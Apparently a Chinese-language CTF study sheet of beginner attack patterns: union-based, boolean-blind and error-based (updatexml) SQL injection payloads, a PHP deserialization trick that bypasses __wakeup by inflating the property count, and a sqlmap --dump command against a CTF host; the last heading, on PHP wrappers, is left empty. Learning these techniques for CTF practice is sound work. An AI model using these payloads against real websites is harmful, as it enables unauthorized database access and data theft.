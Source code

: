 ### CTF入门的一些知识和范式



#### SQL注入

1. 先找到是数字型注入还是字符型注入 并判断闭合符

​	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

​	?id=1' and 1=2--+ -> 判断‘是否为闭合符

2. 找到回显位

​	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

​	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

```
union select 1,database(),group_concat(table_name)from information_schema.tables where table_schema=database()--+
```



4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

   ```
   union select 1,database(),group_concat(column_name)from information_schema.columns where table_name='fl4g'--+
   ```

   

5. 最后利用select从列名中找到flag

   union select 1,database(),group_concat(fllllag)from fl4g--+



#### 布尔盲注

没有回显位时可用此方法注入 需用python脚本自动化此方法 但是待学习python脚本编程

1. 先找到数据库名的长度

   ```sql
   ?id=1 and length(database())=1
   #query_error
   ...
   ?id=1 and length(database())=4
   #query_success
   #库名长度为4
   
   ```

   

2. 在利用substr函数挨个找到database()的名字

   ```sql
   ?id=1 and substr(database(),1,1)=‘a’
   #query_error
   ...
   ?id=1 and substr(database(),1,1)=‘s’
   #query_success
   #库名第一个字符是s
   ...
   ?id=1 and substr(database(),4,1)=‘i’
   #query_success
   #库名第四个字符是i
   #库名是sqli
   
   ```

3. 此后便根据此找到database 的 表个数 表名 列个数 列名 内容 即可

   **人工巨麻烦，必须找到利用python脚本的方法**

#### 报错注入

当网站开启错误调试信息时可用此方法注入（不然只能盲注）

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可

#### 反序列化

如何跳过__wakeup函数？

O:6:"HaHaHa":***3***:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

如上所示 对象本该只有两个属性 admin 和 passwd ，将数量设置为3即可在反序列化中跳过wakeup函数。

#### sqlmap

python sqlmap.py -u "http://node4.anna.nssctf.cn:28366/?id=1" --dump

#### PHP伪协议

如何传入文件？

